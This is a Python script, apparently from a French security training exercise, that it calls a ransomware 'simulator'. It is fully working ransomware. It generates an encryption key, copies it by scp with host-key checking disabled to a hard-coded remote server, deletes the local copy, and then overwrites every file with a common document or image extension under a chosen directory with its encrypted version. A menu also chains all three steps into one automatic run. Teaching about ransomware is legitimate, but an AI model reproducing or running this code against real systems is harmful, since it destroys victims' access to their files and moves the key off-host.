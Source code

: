 #!/usr/bin/env python3
# RANSOMWARE SIMULATEUR - VERSION AVEC MENU INTERACTIF
import os
import sys
import subprocess
from cryptography.fernet import Fernet
from pathlib import Path

# Configuration
SSH_SERVER = "192.168.45.90"
SSH_USER = "doranco"
REMOTE_DIR = "/home/doranco/cle_dechiffrement"
KEY_FILE = "decryption_key.key"

class RansomwareSimulator:
    def __init__(self):
        self.key = None
        self.cipher = None
        self.target_exts = {'.txt', '.doc', '.docx', '.pdf', '.jpg', '.sql'}
        
    def clear_screen(self):
        """Efface l'écran du terminal"""
        os.system('cls' if os.name == 'nt' else 'clear')
    
    def show_banner(self):
        """Affiche une bannière stylisée"""
        self.clear_screen()
        print("""
██████╗  █████╗ ███╗   ██╗███████╗ ██████╗ ███╗   ███╗
██╔══██╗██╔══██╗████╗  ██║██╔════╝██╔═══██╗████╗ ████║
██████╔╝███████║██╔██╗ ██║███████╗██║   ██║██╔████╔██║
██╔══██╗██╔══██║██║╚██╗██║╚════██║██║   ██║██║╚██╔╝██║
██║  ██║██║  ██║██║ ╚████║███████║╚██████╔╝██║ ╚═╝ ██║
╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═══╝╚══════╝ ╚═════╝ ╚═╝     ╚═╝
        """)
        print("=== SIMULATEUR ÉDUCATIF - MENU PRINCIPAL ===")
        print("⚠️ À utiliser uniquement en environnement de test ⚠️\n")

    def generate_key(self):
        """Génère une clé de chiffrement"""
        print("\n🔑 Génération de la clé...")
        self.key = Fernet.generate_key()
        self.cipher = Fernet(self.key)
        print(f"✅ Clé générée: {self.key.decode()[:12]}...")
        return True

    def transfer_key_ssh(self):
        """Transfère la clé via SSH natif"""
        if not self.key:
            print("\n❌ Aucune clé générée!")
            return False

        try:
            print("\n🔄 Transfert de la clé...")
            
            # Crée un fichier temporaire
            with open(KEY_FILE, 'wb') as f:
                f.write(self.key)
            
            # Crée le répertoire distant
            subprocess.run([
                'ssh',
                f'{SSH_USER}@{SSH_SERVER}',
                f'mkdir -p {REMOTE_DIR}'
            ], check=True)
            
            # Copie la clé via SCP
            subprocess.run([
                'scp',
                '-o', 'StrictHostKeyChecking=no',
                KEY_FILE,
                f'{SSH_USER}@{SSH_SERVER}:{REMOTE_DIR}/{KEY_FILE}'
            ], check=True)
            
            # Nettoyage
            os.remove(KEY_FILE)
            
            print(f"\n📤 Clé transférée avec succès vers :")
            print(f"   Serveur: {SSH_SERVER}")
            print(f"   Chemin: {REMOTE_DIR}/{KEY_FILE}")
            return True
            
        except subprocess.CalledProcessError as e:
            print(f"\n❌ Échec du transfert SSH: {e}")
            return False

    def encrypt_file(self, filepath):
        """Chiffre un fichier"""
        try:
            if Path(filepath).suffix.lower() not in self.target_exts:
                return False

            with open(filepath, 'rb') as f:
                data = f.read()
            
            encrypted = self.cipher.encrypt(data)
            
            with open(filepath, 'wb') as f:
                f.write(encrypted)
            
            return True
        except Exception as e:
            print(f"⚠️ Erreur sur {filepath}: {e}")
            return False

    def encrypt_directory(self, path='.'):
        """Chiffre un dossier"""
        if not os.path.exists(path):
            print("\n❌ Le dossier spécifié n'existe pas!")
            return

        encrypted = errors = 0
        print(f"\n🔒 Début du chiffrement de: {path}")
        
        for root, _, files in os.walk(path):
            for file in files:
                if Path(file).suffix.lower() in self.target_exts:
                    if self.encrypt_file(os.path.join(root, file)):
                        encrypted += 1
                    else:
                        errors += 1
        
        print(f"\n✅ Chiffrement terminé!")
        print(f"   Fichiers chiffrés: {encrypted}")
        print(f"   Erreurs: {errors}")

    def show_menu(self):
        """Affiche le menu interactif"""
        while True:
            self.show_banner()
            print("Options disponibles:")
            print("1. Générer une nouvelle clé")
            print("2. Transférer la clé actuelle")
            print("3. Chiffrer un dossier")
            print("4. Tout faire (mode automatique)")
            print("0. Quitter\n")
            
            choice = input("Votre choix (0-4): ")
            
            if choice == "1":
                self.generate_key()
            elif choice == "2":
                if self.key:
                    self.transfer_key_ssh()
                else:
                    print("\n❌ Vous devez d'abord générer une clé!")
            elif choice == "3":
                if self.key:
                    path = input("\nEntrez le chemin du dossier à chiffrer: ")
                    self.encrypt_directory(path)
                else:
                    print("\n❌ Vous devez d'abord générer une clé!")
            elif choice == "4":
                print("\n🚀 Mode automatique activé...")
                if self.generate_key():
                    if self.transfer_key_ssh():
                        path = input("\nEntrez le chemin du dossier à chiffrer: ")
                        self.encrypt_directory(path)
            elif choice == "0":
                print("\n👋 Au revoir!")
                sys.exit(0)
            else:
                print("\n❌ Option invalide!")
            
            input("\nAppuyez sur Entrée pour continuer...")

if __name__ == '__main__':
    try:
        # Vérifie que SSH est installé
        subprocess.run(['ssh', '-V'], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL, check=True)
        
        sim = RansomwareSimulator()
        sim.show_menu()
        
    except subprocess.CalledProcessError:
        print("\n❌ Erreur: OpenSSH doit être installé")
        print("Installez-le avec: sudo apt install openssh-client")
        sys.exit(1)
    except KeyboardInterrupt:
        print("\n\n⏹️ Opération annulée par l'utilisateur")
        sys.exit(0)
    except Exception as e:
        print(f"\n❌ Erreur inattendue: {e}")
        sys.exit(1)